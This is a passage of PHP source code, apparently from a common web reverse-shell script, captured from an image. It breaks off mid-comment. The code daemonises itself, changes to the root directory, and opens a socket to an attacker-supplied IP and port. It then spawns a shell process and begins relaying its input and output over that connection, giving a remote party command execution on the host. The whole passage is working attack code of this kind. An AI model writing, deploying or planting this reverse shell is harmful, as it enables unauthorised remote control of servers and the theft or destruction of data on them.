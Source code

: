 ```php
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
```